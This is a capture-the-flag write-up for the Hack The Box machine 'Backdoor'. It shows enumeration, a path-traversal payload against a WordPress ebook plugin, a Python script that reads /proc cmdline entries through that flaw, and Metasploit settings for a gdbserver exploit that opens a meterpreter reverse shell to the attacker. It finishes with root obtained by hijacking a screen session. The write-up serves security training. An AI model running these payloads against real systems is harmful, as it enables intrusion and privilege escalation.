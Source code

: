 # Machine Name - Backdoor 

![image](https://user-images.githubusercontent.com/56447720/142755520-3cfea3f5-27b9-4c33-9e77-3e4457aa6ddf.png)

## Initial Enumeration

#### Nmap Scan

```bash
└─$ nmap -p- 1337,80,22 backdoor.htb -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-21 15:24 IST
Nmap scan report for backdoor.htb (10.129.236.8)
Host is up (0.34s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.00 seconds
```
## Directory Listing

```bash
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://backdoor.htb/wp-content/FUZZ -c                         

________________________________________________

 :: Method           : GET
 :: URL              : http://backdoor.htb/wp-content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 317, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 318, Words: 20, Lines: 10]
:: Progress: [20469/20469] :: Job [1/1] :: 160 req/sec :: Duration: [0:02:14] :: Errors: 0 ::

```
- The `wp-admin` directory lands you to a wordpress login page, I tried cracking the password with rockyou.txt but failed
- The `wp-content` directory had nothing, so I further `ffuf` it go see more directoires in it

#### Wp-content

```bash
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://backdoor.htb/wp-content/FUZZ -c 
    
________________________________________________

 :: Method           : GET
 :: URL              : http://backdoor.htb/wp-content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 325, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 324, Words: 20, Lines: 10]
upgrade                 [Status: 301, Size: 325, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 325, Words: 20, Lines: 10]

:: Progress: [20469/20469] :: Job [1/1] :: 160 req/sec :: Duration: [0:02:14] :: Errors: 0 ::
```
- The plugins directory is quiet intresting 

  ![image](https://user-images.githubusercontent.com/56447720/142757950-719f874f-6535-4605-a28b-2d8c2b988e83.png)

- After messing around on web I found this exploit link : https://www.exploit-db.com/exploits/39575

- Payload : `http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

![image](https://user-images.githubusercontent.com/56447720/142758211-612714fb-2d69-4f5e-ad67-a407a82a4e3f.png)

![image](https://user-images.githubusercontent.com/56447720/142758317-b4f84315-4750-4047-be22-03e1e0200fa3.png)


## Iniital Foothold

- I tried getting the `id_rsa` with LFI but the `user` directory didn't have any ssh keys
- The port 1337 had `?waste` service which nmap said ( NOTE : `?waste` wasn't the service running on port 1337 )
- Let's check what service that port had
- I read the man page for proc and found `/cmdline` intresting which tells sumary about a service  
- Man page of `proc` : https://man7.org/linux/man-pages/man5/proc.5.html
- I didn't found any exploits that shows services , so I made one 

#### Check Services

- Exploit.py
  ```py
  import requests

  url = 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl='
  pl = []
  start = 900 # The service was on 956 for me, if you didn't found the service try changing the start point
  for i in range(start,1010):  
      pl.append(f'{url}../../../../../../../../../../../../../../../proc/{i}/cmdline')
 
  for i in pl:
      r = requests.get(i)
      check = r.text
      if '1337' in check:
          print(check)
          print('SERVICE SUCCESSFULLY FOUND')
          break
      else:
          print(f'trying on /proc/{start}/cmdline')
          start+=1
  ```

- Output.txt
  
```bash
../../../../../../../../../../../../../../../proc/956/cmdline
../../../../../../../../../../../../../../../proc/956/cmdline
../../../../../../../../../../../../../../../proc/956/cmdline

/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done

<script>window.close()</script>

 ```
 
- So the `port 1337` is running a `gdbserver`

![image](https://user-images.githubusercontent.com/56447720/142758972-3707c8b8-2ef8-4433-9b71-8044675135e3.png)

- Link : https://www.rapid7.com/db/modules/exploit/multi/gdb/gdb_server_exec/

## User Shell

- Use this `msf exploit` to get the user shell : `use exploit/multi/gdb/gdb_server_exec`

```bash
msf6 exploit(multi/gdb/gdb_server_exec) > set lhost 10.10.14.76
lhost => 10.10.14.76
msf6 exploit(multi/gdb/gdb_server_exec) > set rhosts <IP OF THE MACHINE>

msf6 exploit(multi/gdb/gdb_server_exec) > set target 1
target => 1
msf6 exploit(multi/gdb/gdb_server_exec) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/gdb/gdb_server_exec) > set rport 1337
rport => 1337

```
- Exploiting it gets us to `<meterpreter>` , to get a proper shell use `shell` command
- And we have the user shell 
- `python3 -c "import pty;pty.spawn('/bin/bash')"`

```bash
user@Backdoor:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user)

user@Backdoor:~$ cat user.txt
<--SNIPPED-->
```

## Privilege Escalation

#### Linpeas

```bash
root         937  0.0  0.1   8356  3420 ?        S    07:15   0:00  _ /usr/sbin/CRON -f
root         954  0.0  0.0   2608  1596 ?        Ss   07:15   0:02      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec s
```
- The screen service is running at root privileges 

#### Root Shell


```bash
user@Backdoor:~$ /usr/bin/screen -h

-h lines      Set the size of the scrollback history buffer.
-i            Interrupt output sooner when flow control is on.
-l            Login mode on (update /var/run/utmp), -ln = off.
-ls [match]   or
-list         Do nothing, just list our SockDir [on possible matches].
-L            Turn on output logging.
-Logfile file Set logfile name.
-m            ignore $STY variable, do create a new screen session.
-O            Choose optimal output rather than exact vt100 emulation.
-p window     Preselect the named window if it exists.
-q            Quiet startup. Exits with non-zero return code if unsuccessful.
-Q            Commands will send the response to the stdout of the querying process.
-r [session]  Reattach to a detached screen process.
-R            Reattach if possible, otherwise start a new session.
-s shell      Shell to execute rather than $SHELL.
-S sockname   Name this session <pid>.sockname instead of <pid>.<tty>.<host>.
-t title      Set title. (window's name).
-T term       Use term as $TERM for windows, rather than "screen".
-U            Tell screen to use UTF-8 encoding.
-v            Print "Screen version 4.08.00 (GNU) 05-Feb-20".
-wipe [match] Do nothing, just clean up SockDir [on possible matches].
-x            Attach to a not detached screen. (Multi display mode).
-X            Execute <cmd> as a screen command in the specified session.

```
- So as there were no exploits available on the internet we have to play with the flags 
- I tried to exploit with help of GTFO bins and some flags around here 
- So we can get root shell with the `-x` flag  : `-x UserYouWannaHijackSession / HisSessionName`  

#### root

```bash
user@Backdoor:~$ /usr/bin/screen -x root/root
/usr/bin/screen -x root/root

root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Backdoor:~# cat /root/root.txt
<--SNIPPED-->
```
- If you didn't get the shell or some error like `Please set a terminal type.` use this command `export TERM=xterm`

#### Box pwned 
![image](https://user-images.githubusercontent.com/56447720/143611602-d17a27c8-6c0c-4321-a196-aacaf50c8a97.png)



